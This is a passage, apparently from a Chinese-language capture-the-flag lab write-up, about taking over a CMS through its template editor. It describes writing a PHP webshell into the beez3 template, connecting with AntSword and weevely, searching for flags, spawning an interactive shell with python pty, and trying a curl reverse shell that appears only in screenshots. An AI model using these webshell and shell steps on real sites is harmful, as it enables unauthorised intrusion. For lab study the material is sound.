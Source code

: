 这里直接上传一个new file好像不行

![image-20211112162816796](images/29.png)

不过我可以直接创建一个php文件,写个马进去

![image-20211112163212949](images/30.png)

虽然他这里说的`Editing file "/html/shell.php" in template "beez3"`,但是真是的路径是templates而不是template

```
http://192.168.3.38/templates/beez3/html/shell.php
```

![image-20211112163027942](images/31.png)

上传成功,蚁剑直接连

用蚁剑的虚拟终端找flag

```
find / -name 'f*'
```

找了一圈没有看到flag,可能在根目录下,现在是www-data权限,需要提权

## 反弹shell

因为正向shell无法提权，反弹shell才能成功提权

可以直接curl反弹shell

![image-20211112165443619](images/32.png)

![image-20211112165127797](images/33.png)

不过这里我是直接在页面执行的命令,执行在蚁剑里面反弹shell没有成功

![image-20211112165239539](images/34.png)

都没有成功

如果大家没有交互式的Shell，可以通过python反弹一个交互式shell：

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

除此之外也可以用kali里面的蚁剑(weevely)直接连接shell

```
weevely generate test test.php	#生成后面文件test.php

复制内容到创建的文件test.php里面去

weevely http://192.168.200.14/templates/beez3/test.php test	#连接shell
```
